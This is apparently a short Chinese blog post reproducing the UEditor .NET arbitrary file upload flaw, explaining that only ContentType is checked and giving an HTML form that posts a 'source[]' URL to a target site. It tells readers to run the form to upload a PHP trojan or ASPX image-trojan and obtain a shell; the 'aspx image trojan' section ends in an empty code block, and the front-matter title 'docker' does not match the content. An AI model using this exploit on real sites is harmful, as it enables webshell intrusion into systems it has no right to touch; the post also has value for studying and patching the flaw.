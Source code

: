 ```yaml
---
layout: post
title: docker
date: 2022-8-19
categories: blog
tags: [漏洞复现,ueditor]
description: ueditor漏洞整理


---
```


### Ueditor .net版本任意文件上传

**漏洞原理**
Ueditor中获取图片资源时仅检查ContentType,可造成任意文件上传

**漏洞复现**
利用post直接上传文件到目标网站

```html
<form action="目标站点" enctype="multipart/form-data" method="POST">
 
 <p>shell addr: <input type="text" name="source[]" /></p>
  
 <input type="submit" value="Submit" />
  
</form>
```

以上代码保存为html直接执行，绕过保护机制上传php木马和aspx图片马进行getshell

**ContentType绕过**

1.aspx图片马

```

```


